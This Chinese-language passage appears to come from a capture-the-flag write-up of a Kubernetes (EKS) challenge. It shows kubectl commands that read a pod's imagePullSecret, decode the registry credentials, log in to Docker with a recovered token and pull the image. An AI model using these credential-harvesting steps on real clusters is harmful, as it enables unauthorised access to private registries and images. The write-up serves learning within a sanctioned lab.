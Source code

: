 这个权限下，我们无法列出 secrets，具体的 list get 的区别可以看看 stackoverflow 社区的小讲解：[stackoverflow.com/questions/58159866/get-vs-list-in-kubernetes-rbac](https://stackoverflow.com/questions/58159866/get-vs-list-in-kubernetes-rbac)

所以我们可以先查看一下 pod 里有什么先。

```bash
kubectl get pods -o yaml

apiVersion: v1
items:
- apiVersion: v1
  kind: Pod
  metadata:
	....
	name: database-pod-2c9b3a4e
    namespace: challenge2
  spec:
    containers:
    - image: eksclustergames/base_ext_image
      imagePullPolicy: Always
      name: my-container
      ......
    imagePullSecrets:
    - name: registry-pull-secrets-780bab1d
    nodeName: ip-192-168-21-50.us-west-1.compute.internal
    volumes:
    - name: kube-api-access-cq4m2
      projected:
        defaultMode: 420
        sources:
        - serviceAccountToken:
            expirationSeconds: 3607
            path: token
......
```

可以发现这里只有一个 pod，并且有 imagePullSecret 字段。 直接去获取对应的 secret 进行解密处理。登陆 docker 后，pull 当前 pod 的 image

```bash
kubectl get secrets registry-pull-secrets-780bab1d -o yaml

[base64 decoded]
{"auths": {"index.docker.io/v1/": {"auth": "ZWtzY2x1c3RlVI4NW1H{base64 enode}w=="}}}

# reuse the cred
docker login -u eksclustergames
Password: dckr_pat_YtncV-R85mAAAAAAAACo
```

docker 登陆完成后，pull 当前 pod 的 images

```bash
docker pull docker.io/eksclustergames/base_ext_image
```
